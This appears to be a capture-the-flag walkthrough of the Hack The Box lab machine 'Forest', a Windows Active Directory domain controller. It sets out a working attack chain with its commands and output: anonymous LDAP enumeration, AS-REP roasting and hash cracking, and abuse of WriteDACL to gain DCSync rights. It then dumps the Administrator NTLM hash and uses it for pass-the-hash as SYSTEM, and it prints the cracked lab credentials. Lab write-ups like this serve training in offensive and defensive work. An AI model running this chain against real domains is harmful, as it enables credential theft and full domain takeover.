





## Overview

Forest is an easy Windows AD box. The path:

- Enumerate anonymous LDAP with windapsearch to pull a user list
- AS-REP roast the `svc-alfresco` service account and crack the hash
- Use BloodHound to find a `WriteDACL` path, grant DCSync, and dump the Administrator hash
- Pass-the-hash to get a shell as Administrator

**Tools:** nmap · windapsearch · impacket (GetNPUsers, secretsdump, psexec) · John · BloodHound / SharpHound · evil-winrm



## Recon

```
nmap -p- -sCV -oN nmapscan 10.10.10.161
```

```
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-03-09 03:33:58Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (WinRM)
9389/tcp  open  mc-nmf       .NET Message Framing
```

Kerberos (88), LDAP (389), SMB (445) and WinRM (5985) — a standard domain controller. The `smb-os-discovery` script confirms the domain is `htb.local` and the host is `FOREST`.

## Enumeration: anonymous LDAP

**1. Verify anonymous LDAP is enabled** with the `ldap-search` NSE script.

```
nmap -p- --script=ldap-search 10.10.10.161 -oN ldap_search_nse
```

It returns the domain object without credentials, so anonymous bind works:

```
389/tcp open ldap
| ldap-search:
|   Context: DC=htb,DC=local
|     dn: DC=htb,DC=local
|         objectClass: top, domain, domainDNS
|         distinguishedName: DC=htb,DC=local
|         whenCreated: 2019/09/18 17:45:49 UTC
|         name: htb
|         objectGUID: dff0c71a-49a9-264b-8c7b-52e3e2cb6eab
```

**2. Dump all objects** with [windapsearch](https://github.com/ropnop/windapsearch):

```
python windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "objectClass=*"
```

Grepping the output for `admin | service | user | svc` turns up an uncommon service account:

```
$ cat full_ldap_scan.txt | grep svc
CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
```

The normal user accounts come from [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ windapsearch -m users -d htb.local --dc 10.10.10.161 | grep sAMAccountName
sAMAccountName: Administrator
sAMAccountName: DefaultAccount
sAMAccountName: Guest
sAMAccountName: sebastien
sAMAccountName: lucinda
sAMAccountName: andy
sAMAccountName: santi
sAMAccountName: mark
...
```

Filtering out the `HealthMailbox*` and `SM_*` Exchange accounts, the real user list is:

```
Administrator
svc-alfresco
sebastien
lucinda
andy
santi
mark
```

## Foothold: AS-REP roasting

With a user list, try AS-REP roasting — any account with "Do not require Kerberos preauthentication" set will hand back an encrypted blob we can crack offline.

```
impacket-GetNPUsers -no-pass -usersfile users.txt -request -format hashcat \
  -outputfile ASREProastables.txt -dc-ip 10.10.10.161 'htb.local/'
```

`svc-alfresco` is the one account without preauth required:

```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b1c70879b80aa9caa95b18a89df5f2d4$741279c8d26b5a938e...
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Crack the hash with John:

```
john hashes.txt --wordlist=rockyou.txt
```

```
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23)
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2024-03-09 13:12) ... Session completed.
```

Credentials: **`svc-alfresco:s3rvice`**

## Initial access

Port 5985 (WinRM) is open — a quick check confirms it:

```
$ nmap -p5985 10.10.10.161
PORT     STATE SERVICE
5985/tcp open  wsman
```

So connect with evil-winrm:

```
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> hostname
FOREST
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

Quick look around — most of this is locked down. `whoami /priv` is the only interesting bit:

```
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                       State
============================= ================================= =======
SeMachineAccountPrivilege     Add workstations to domain        Enabled
SeChangeNotifyPrivilege       Bypass traverse checking          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set    Enabled
```

`systeminfo`, the installed-applications list and scheduled tasks all return **access denied**, and there are no uncommon directories in `C:\`. Nothing obvious locally — time to map the domain.

## Enumeration: BloodHound

1. Install [BloodHound CE](https://github.com/SpecterOps/BloodHound) via Docker.
2. Upload [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) through evil-winrm and run it:

   ```
   *Evil-WinRM* PS C:\...> upload SharpHound.exe
   *Evil-WinRM* PS C:\...> ./SharpHound.exe -c All
   ```
3. Download the resulting zip back to Kali through the same session (`download <zip>`) and import it into BloodHound.

## Privilege escalation: WriteDACL → DCSync

> Reference: [Abusing Active Directory ACLs/ACEs](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#context)

BloodHound shows that the **Exchange Windows Permissions** group has `WriteDACL` on the domain. `WriteDACL` lets a user modify an object's ACEs and grant themselves full control — so we can add our user to that group and give them **DCSync** rights.

`svc-alfresco` is a member of `Account Operators` (which has `GenericAll` over the group), and the group chain leads to the `WriteDACL` edge:





`Account Operators` has `GenericAll`:



`Exchange Windows Permissions` has `WriteDACL` on the domain:



### Attack

**1. Add `svc-alfresco` to Exchange Windows Permissions and grant DCSync** (PowerView):

```powershell
$username = "htb\svc-alfresco"
$password = "s3rvice"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $username, $secstr
Add-DomainObjectAcl -Credential $cred -PrincipalIdentity 'svc-alfresco' `
  -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

**2. Dump the NTLM hashes** with secretsdump, now that we have DCSync:

```
impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161
```

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

**3. Pass-the-hash as Administrator** with psexec:

```
impacket-psexec htb.local/administrator@10.10.10.161 \
  -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

```
[*] Found writable share ADMIN$
[*] Uploading file NbMmycFm.exe
[*] Creating service mnpp on 10.10.10.161.....
C:\Windows\system32> whoami
nt authority\system
```

Domain Admin. 🩸

## References

- [DCSync — HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
- [WriteDACL / WriteOwner abuse — HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#writedacl--writeowner)
